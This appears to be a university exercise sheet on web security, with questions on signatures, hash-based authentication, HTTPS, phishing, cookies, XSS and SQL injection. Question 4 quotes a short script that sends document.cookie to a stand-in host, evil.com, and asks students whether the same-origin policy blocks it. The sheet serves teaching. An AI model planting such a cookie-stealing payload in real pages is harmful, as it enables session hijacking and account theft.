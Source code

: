 # Exercises sheet 3 Web Security

**There will be no written corrections. Exercises will be discussed during the recorded live Q&A. Come and prepare questions.**

1. Barack often sends funny jokes to Hillary. He does not care about confidentiality of these messages but wants to get credit for the jokes and prevent Bill from claiming authorship or modifying them. How can this be achieved using public-key cryptography?

2. As public-key cryptography is computationally intensive and drains the battery of Barack’s device, he comes up with an alternative approach. First, he shares a secret key k with Hillary but not with Bill. Next, together with a joke x, he sends over the value d = h(k\|\|x), where h is a cryptographic hash function. Does value d provide assurance to Hillary that Barack is the author of x and that x was not modified by Bill? Justify your answer.

3. Barack periodically comes up with brilliant ideas to stop the financial crisis, provide health care to every citizen, and save the polar bears. He wants to share these ideas with all the cabinet members but also get credit for the ideas. Extending the above approach, he shares a secret key k with all the cabinet members. Next, he broadcasts each idea z followed by value h(k\|\|z). Does this approach work or can Tim claim that he came up with the ideas instead of Barack? Justify your answer.

4. Suppose that you accidently visit a malicious site www.evil.com, which contains a JavaScript to access cookies related to your e-shopping site buy-all.bz as follows:
    ```
    <script>
        img = new Image();
        img.src = "http://www.evil.com/steal.php?cookie=" + document.cookie;
    </script>
    ```
    Will that be successful? Why or why not?

5. Which of the following security goals are addressed by the HTTPS protocol: (a) privacy, (b) confidentiality, (c) availability.

6. Is it possible for an attacker to perform a phishing attack if the client is using HTTPS? Why or why not?

7. Explain why, in general, a web server should not be allowed access to cookies set by another web server.

8. Summarize the difference between persistent and non-persistent cross-site scripting attacks.

9. Explain why input validation mitigates the risks of SQL injection attacks.
